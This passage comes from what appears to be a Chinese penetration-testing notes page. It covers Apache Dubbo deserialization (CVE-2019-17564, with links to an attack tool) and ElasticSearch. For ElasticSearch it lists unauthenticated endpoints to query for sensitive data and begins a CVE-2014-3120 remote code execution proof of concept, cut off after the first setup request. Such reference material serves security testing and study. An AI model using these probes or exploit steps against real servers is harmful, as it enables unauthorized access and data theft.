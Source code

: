 
## Dubbo

> 官网 : https://dubbo.apache.org/zh-cn/

Apache Dubbo 是一款高性能、轻量级的开源 Java RPC 框架，它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。

**工具**
- [threedr3am/dubbo-exp](https://github.com/threedr3am/dubbo-exp) - Dubbo 反序列化一键快速攻击测试工具，支持 dubbo 协议和 http 协议，支持 hessian 反序列化和 java 原生反序列化。

**CVE-2019-17564 pache Dubbo 反序列化漏洞**
- 文章
    - [漏洞复现|Dubbo反序列化漏洞CVE-2019-17564](https://www.cnblogs.com/wh4am1/p/12307848.html)
    - [[漏洞分析]CVE-2019-17564/Apache Dubbo存在反序列化漏洞](https://qiita.com/shimizukawasaki/items/39c9695d439768cfaeb5)

---

## ElasticSearch

> 官网 : https://www.elastic.co/

ElasticSearch 是一个基于 Lucene 的搜索服务器.它提供了一个分布式多用户能力的全文搜索引擎,基于 RESTful web 接口.Elasticsearch 是用 Java 开发的,并作为 Apache 许可条款下的开放源码发布,是当前流行的企业级搜索引擎.

**未授权访问漏洞**

- `http://<ip>:9200`
- `http://<ip>:9200/_plugin/head/` web 管理界面
- `http://<ip>:9200/hello/_search?pretty&size=50&from=50`
- `http://<ip>:9200/_cat/indices`
- `http://<ip>:9200/_river/_search` 查看数据库敏感信息
- `http://<ip>:9200/_nodes` 查看节点数据
- `http://<ip>:9200/_cat/indices?v` 查看当前节点的所有 Index
- `http://<ip>:9200/_search?pretty=true` 查询所有的 index, type

**CVE-2014-3120 ElasticSearch 命令执行漏洞**
- 简介

    老版本 ElasticSearch 支持传入动态脚本 (MVEL) 来执行一些复杂的操作,而 MVEL 可执行 Java 代码,而且没有沙盒,所以我们可以直接执行任意代码.

- 影响版本
    - ElasticSearch 1.1.1

- POC | Payload | exp

    来源: [ElasticSearch 命令执行漏洞 (CVE-2014-3120) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/)

    首先,该漏洞需要 es 中至少存在一条数据,所以我们需要先创建一条数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25
